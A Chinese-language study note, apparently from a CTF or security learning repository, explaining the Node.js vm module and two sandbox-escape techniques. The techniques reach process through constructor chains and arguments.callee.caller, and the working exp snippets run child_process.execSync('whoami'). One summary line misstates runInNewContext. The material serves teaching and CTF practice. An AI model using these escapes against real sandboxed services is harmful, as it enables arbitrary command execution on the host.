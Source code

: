 ## vm 沙箱
### vm文档
https://nodejs.cn/api-v14/vm.htm
### vm沙箱常用函数
#### vm.runinThisContext(code)
`vm.runInThisContext()` 编译 `code`，在当前 `global` 的上下文中运行它并返回结果。 运行代码无权访问局部作用域，但可以访问当前 `global` 对象。

```js
const vm = require('vm');
let localVar = 'initial value';
  
const vmResult = vm.runInThisContext('localVar = "vm";');
console.log(`vmResult: '${vmResult}', localVar: '${localVar}'`);
// 打印: vmResult: 'vm', localVar: 'initial value'
  
const evalResult = eval('localVar = "eval";');
console.log(`evalResult: '${evalResult}', localVar: '${localVar}'`);
// 打印: evalResult: 'eval', localVar: 'eval'
```

#### vm.createContext([contextObject[, options]])
如果给定 `contextObject`，`vm.createContext()` 方法将准备那个对象，以便它可以用于调用 `vm.runInContext()` 或 `script.runInContext()`。 在此类脚本中，`contextObject` 将是全局对象，保留其所有现有属性，但也具有任何标准全局对象具有的内置对象和函数。 在 vm 模块运行的脚本之外，全局变量将保持不变。
```js
const vm = require('vm');

global.globalVar = 3;

const context = { globalVar: 1 };
vm.createContext(context);
vm.runInContext('globalVar *= 2;', context);

console.log(context);
// 打印: { globalVar: 2 }
console.log(global.globalVar);
// 打印: 3
```

从结果可以看出这个新的沙箱对象是独立于global外的一个独立作用域，而这个沙箱对象是这个作用域的全局对象，与global中的全局全局对象是不同的，相当于v8中的第二个global

#### vm.runInContext(code, contextifiedObject[, options])
`vm.runInContext()` 方法编译 code，在 `contextifiedObject` 的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。 `contextifiedObject` 对象必须之前已经使用 `vm.createContext(`) 方法上下文隔离化。
```js
const vm = require('vm');

const contextObject = { globalVar: 1 };
vm.createContext(contextObject);

for (let i = 0; i < 10; ++i) {
  vm.runInContext('globalVar *= 2;', contextObject);
}
console.log(contextObject);
// 打印: { globalVar: 1024 }
```
#### vm.runInNewContext(code[, contextObject[, options]])
`vm.runInNewContext()` 首先将给定的 `contextObject` 上下文化（如果作为 `undefined` 传入，则创建新的 `contextObject`），编译 code，在创建的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。
如果 `options` 是字符串，则指定文件名。
简单的说 `vm.runInNewContext = vm.createContext + vm.createContext`

### vm沙箱逃逸方法
#### 传递对象逃逸
```js
const vm = require("vm");

const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
//const y1 = vm.runInNewContext(`this.toString.constructor('return process')()`);
return y1.mainModule.require('child_process').execSync('whoami').toString()
console.log(y1);
```

这里的`this` 是传递给`runInNewContext`的对象，这个对象并不在沙箱环境中，接下来就和ssit相似的过程去获取构造器，以及构造器对象的构造器

>注意：数字，字符串，布尔这类都是primitive类型，在传递的过程中他们是将值传递过去而不是引用，所以是没有办法用来利用的

#### 外界调用函数触发
这个触发方式有些类似于PHP反序列化魔术方法的触发

```js
const vm = require('vm');
const script = `...`;
const sandbox = Object.create(null);
const context = vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

exp

```js
const vm = require('vm');
const script = 
`(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').execSync('whoami').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

在这个逃逸中用到了`arguments.callee.caller`，作用是返回函数的调用者
- arguments是一个**类数组对象**，在函数调用时创建，它存储的是实际传递给函数的参数，并不局限于函数定义时的参数列表。
- callee 是arguments对象的一个属性, 它是一个指向 arguments 对象所在函数的指针。
- 这个属性中保存着调用当前函数的函数的引用， 如果是在全局作用域中调用当前函数，它的值为 null。

在上面的exp中重构了函数`a`的toString方法，因此在下面`console.log('Hello ' + res)`的过程中触发了a函数实现了逃逸

这里其实和DiceCTF 2023的jwtjail是相似的
## 参考文章
https://xz.aliyun.com/t/11859

[[函数] arguments、callee、caller是啥？ - 掘金 (juejin.cn)](https://juejin.cn/post/7056285377899790372)